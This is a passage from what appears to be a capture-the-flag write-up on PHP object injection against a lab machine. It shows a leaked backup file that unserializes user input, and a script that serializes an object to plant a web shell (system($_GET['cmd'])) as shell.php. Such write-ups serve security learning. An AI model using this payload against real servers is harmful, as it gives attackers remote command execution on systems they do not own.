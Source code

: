 So It's mean there is a backup file called ```sator.php```, We can access this file by url ```http://10.10.10.223/sator.php.bak```, This file contains:
```php
<?php

class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();

?>
```

Let's look at the following two lines:
```php
...
$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);
...
```

It's mean we can send our ```DatabaseExport``` with parameter ```arepo``` to be unserialize.

The function ```__destruct()``` write the content of ```$data``` to ```$user_file```, So let's create our ```DatabaseExport``` class that contains ```$data``` as php web shell and ```$user_file=shell.php```:
```php
<?php
class DatabaseExport
{
    public $user_file='shell.php';
    public $data="<?php system(\$_GET['cmd']); ?>";
}
$payload=new DatabaseExport;
echo serialize($payload);

?>
```
